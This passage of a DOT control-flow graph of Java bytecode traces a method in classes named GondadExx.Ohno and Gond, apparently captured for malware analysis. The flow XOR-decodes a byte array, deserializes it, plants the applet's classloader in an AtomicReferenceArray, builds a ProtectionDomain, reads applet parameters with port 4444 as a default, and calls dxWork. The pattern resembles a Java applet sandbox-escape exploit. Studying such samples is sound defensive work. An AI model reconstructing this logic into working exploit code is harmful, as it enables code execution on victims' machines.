    "new java.security.CodeSource"->"dup1.r";
    "new java.net.URL"
    "dup1.r"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "push \"file:///\""
    "dup1.r"->"push \"file:///\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"file:///\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push 0";
    "push 0"->"newarray";
    "specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>"
    "newarray"->"specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>";
    "specialinvoke <java.security.CodeSource: void <init>(java.net.URL,java.security.cert.Certificate[])>"->"load.r r7";
    "specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>"
    "load.r r7"->"specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>";
    "specialinvoke <java.security.ProtectionDomain: void <init>(java.security.CodeSource,java.security.PermissionCollection)>"->"push 0";
    "store.i r7"
    "push 0"->"store.i r7";
    "load.i r7"
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "arraylength"
    "load.r r6"->"arraylength";
    "ifcmpge.i push 0"
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "arrayread.b"
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 122";
    "xor.b"
    "push 122"->"xor.b";
    "nop"
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "inc.i r7 1"
    "arraywrite.b"->"inc.i r7 1";
    "goto load.i r7"
    "inc.i r7 1"->"goto load.i r7";
    "store.r r0"
    "nop"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"arraylength";
    "arraylength"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"load.r r6";
    "load.r r6"->"load.i r7";
    "load.i r7"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "arraywrite.b"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "ifcmpge.i push 0"->"push 0";
    "push 0"->"store.i r7";
    "store.i r7"->"load.i r7";
    "push 1048576"
    "load.i r7"->"push 1048576";
    "ifcmpge.i new java.io.ObjectInputStream"
    "push 1048576"->"ifcmpge.i new java.io.ObjectInputStream";
    "ifcmpge.i new java.io.ObjectInputStream"->"push 0";
    "store.i r8"
    "push 0"->"store.i r8";
    "load.i r8"
    "store.i r8"->"load.i r8";
    "load.i r8"->"load.r r6";
    "load.r r6"->"arraylength";
    "ifcmpge.i inc.i r7 1"
    "arraylength"->"ifcmpge.i inc.i r7 1";
    "ifcmpge.i inc.i r7 1"->"load.r r6";
    "load.r r6"->"load.i r8";
    "load.i r8"->"load.r r6";
    "load.r r6"->"load.i r8";
    "load.i r8"->"arrayread.b";
    "arrayread.b"->"push 0";
    "push 0"->"xor.b";
    "xor.b"->"nop";
    "nop"->"arraywrite.b";
    "inc.i r8 1"
    "arraywrite.b"->"inc.i r8 1";
    "goto load.i r8"
    "inc.i r8 1"->"goto load.i r8";
    "ifcmpge.i inc.i r7 1"->"inc.i r7 1";
    "inc.i r7 1"->"goto load.i r7";
    "new java.io.ObjectInputStream"
    "ifcmpge.i new java.io.ObjectInputStream"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r6";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "staticinvoke <GondadExx.Gond: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"staticinvoke <GondadExx.Gond: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>";
    "staticinvoke <GondadExx.Gond: java.lang.Object[] streamtoobj(java.io.ObjectInputStream)>"->"dup1.r";
    "dup1.r"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "checkcast"
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"checkcast";
    "store.r r4"
    "checkcast"->"store.r r4";
    "store.r r4"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"push 0";
    "load.r r0"
    "push 0"->"load.r r0";
    "fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>"
    "load.r r0"->"fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"
    "fieldget <GondadExx.Ohno: java.lang.ClassLoader classloader>"->"virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>";
    "virtualinvoke <java.util.concurrent.atomic.AtomicReferenceArray: void set(int,java.lang.Object)>"->"load.r r0";
    "push \"bn\""
    "load.r r0"->"push \"bn\"";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"
    "push \"bn\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"si\""
    "load.r r0"->"push \"si\"";
    "push \"si\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r7";
    "store.r r7"->"load.r r0";
    "push \"xiaomaolv\""
    "load.r r0"->"push \"xiaomaolv\"";
    "push \"xiaomaolv\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "store.r r8"
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "store.r r8"->"load.r r0";
    "push \"bs\""
    "load.r r0"->"push \"bs\"";
    "push \"bs\""->"virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <GondadExx.Ohno: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "load.r r4"
    "store.r r9"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r4";
    "load.r r9"
    "store.r r4"->"load.r r9";
    "ifnull push 4444"
    "load.r r9"->"ifnull push 4444";
    "ifnull push 4444"->"load.r r9";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "load.r r9"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r9"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r9";
    "goto load.r r4"
    "store.i r9"->"goto load.r r4";
    "goto load.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "load.r r8"
    "load.r r0"->"load.r r8";
    "load.r r8"->"load.r r6";
    "load.r r6"->"load.r r7";
    "load.i r9"
    "load.r r7"->"load.i r9";
    "load.i r9"->"load.r $r13";
    "staticinvoke <GondadExx.Gond: void dxWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>"
    "load.r $r13"->"staticinvoke <GondadExx.Gond: void dxWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>";
    "goto return"
    "staticinvoke <GondadExx.Gond: void dxWork(GondadExx.Gond,GondadExx.Ohno,java.lang.String,java.lang.String,java.lang.String,int,java.security.ProtectionDomain)>"->"goto return";
    "push 4444"
    "ifnull push 4444"->"push 4444";
    "push 4444"->"store.i r9";
}

